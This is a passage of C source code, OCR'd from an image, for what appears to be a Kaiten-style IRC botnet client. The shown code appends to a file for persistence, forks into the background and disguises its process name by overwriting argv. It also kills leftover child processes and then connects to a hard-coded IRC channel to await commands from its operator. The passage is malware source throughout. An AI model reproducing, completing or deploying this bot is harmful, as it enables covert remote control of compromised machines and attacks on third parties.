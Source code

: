             if (d == 0) {
                FILE *out;
                fclose(file);
                out = fopen(str, "a");
                if (out != NULL) {
                    fputs(outfile, out);
                    fclose(out);
                }
            } else fclose(file);
        } else fclose(file);
    }
#endif
    if (fork()) exit(0);
#ifdef FAKENAME
    strncpy(argv[0], FAKENAME, strlen(argv[0]));
    for (on = 1; on < argc; on++) memset(argv[on], 0, strlen(argv[on]));
#endif
    srand((time(NULL) ^ getpid()) + getppid());
    nick = makestring();
    ident = makestring();
    user = "raft";
    chan = CHAN;
    key = KEY;
    server = NULL;
sa:
#ifdef IDENT
    for (i = 0; i < numpids; i++) {
        if (pids[i] != 0 && pids[i] != getpid()) {
            kill(pids[i], 9);
            waitpid(pids[i], NULL, WNOHANG);
        }
    }
    pids = NULL;
    numpids = 0;
    identd();
#endif
    con();
    send_msg(sock, "NICK %s\nUSER %s localhost localhost :%s\n", nick, ident, user);
    while (1) {
        unsigned long i;
        fd_set n;
        struct timeval tv;
        FD_ZERO(&n);
        FD_SET(sock, &n);
        tv.tv_sec = 60 * 20;
        tv.tv_usec = 0;
        if (select(sock + 1, &n, (fd_set*) 0, (fd_set*) 0, &tv) <= 0) goto sa;
        for (i = 0; i < numpids; i++) if (waitpid(pids[i], NULL, WNOHANG) > 0) {
                unsigned int *newpids, on;
                for (on = i + 1; on < numpids; on++) pids[on - 1] = pids[on];
                pids[on - 1] = 0;
                numpids--;
                newpids = (unsigned int*) malloc((numpids + 1) * sizeof (unsigned int));
                for (on = 0; on < numpids; on++) newpids[on] = pids[on];
                free(pids);
                pids = newpids;
            }
        if (FD_ISSET(sock, &n)) {
            char buf[4096], *str;
            int i;
            if ((i = recv(sock, buf, 4096, 0)) <= 0) goto sa;
            buf[i] = 0;
            str = strtok(buf, "\n");
            while (str && *str) {